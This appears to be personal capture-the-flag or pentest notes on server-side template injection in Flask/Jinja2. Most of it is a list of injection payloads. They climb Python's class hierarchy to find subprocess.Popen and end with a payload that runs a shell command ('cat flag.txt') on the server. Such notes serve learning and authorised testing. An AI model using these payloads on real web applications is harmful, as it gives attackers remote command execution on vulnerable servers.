 SSTI

## Test SSTI

- Methodology in Payload all the things is very cool

- Start by testing all the language to find the good one


### jinja2

https://medium.com/@nyomanpradipta120/ssti-in-flask-jinja2-20b068fdaeee

- `{{config.items()}}`
- `{{config.from_object('os')}}*`
- `{{config.items()}}`
- `{{''.__class__.__mro__}}`
- `{{''.__class__.__mro__[<index>].__subclasses__()}}`
- Pay attention when you are searching for subclasses, you may have to change the index (it's 1 in the cheat sheet, but could be different)
- When you want to search your index, copy paste the entire result in a variable in python, and use `<var>.split("<delimiter(for me ,)>")`
- then `<var>.index("<desired_function(for me <class 'subprocess.Popen'>)")`. Pay attention, it could have a space at the beginning.
- Or easier way : put it in vim, and substitute /> by a carriage return : `%S />/\r/g` and then find it.
- If you have subprocess.Popen, jackpot :)
- Check if it's the good one : `{{''.__class__.__mro__[<index>].__subclasses__()[<index_found>]}}`
- Then, go back on your system and understand how the function works (subprocess.popen and os.popen are different)
- subprocess.Popen(["ls", "-a"])
- suprocess.Popen("ls -a", shell=True)
- Then add communicate function to read it
- suprocess.Popen("ls -a", shell=True, stdout=-1).communicate()[0]
`{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}`
